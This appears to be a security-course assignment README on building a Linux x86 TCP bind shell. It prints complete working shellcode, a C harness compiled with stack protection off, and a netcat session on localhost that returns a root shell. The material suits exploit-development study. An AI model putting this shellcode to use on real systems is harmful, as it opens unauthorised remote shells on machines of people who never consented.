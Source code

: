 # Assignment 1: Linux x86 TCP Bind Shell

To generate the shellcode, run the python wrapper script `tcp_bind_shell_x86.py` and supply a port:

```bash
python3 tcp_bind_shell_x86.py -p 4444
[*] Generating shellcode for TCP bind shell on port 4444
[*] Shellcode length: 117 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x02\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x31\xc9\x51\x51\x52\x89\xe1\xcd\x80\x50\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

Copy the shellcode output and paste into the `code` variable of `shellcode.c`:

```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x02\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x31\xc9\x51\x51\x52\x89\xe1\xcd\x80\x50\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
...
```

Compile the shellcode using gcc:

```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Run the compiled binary:

```bash
./shellcode 
Shellcode Length: 116
```

Connect to the bind shell over the chosen port using netcat:

```bash
nc localhost 4444                                                                                                                           1 ⨯
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

---
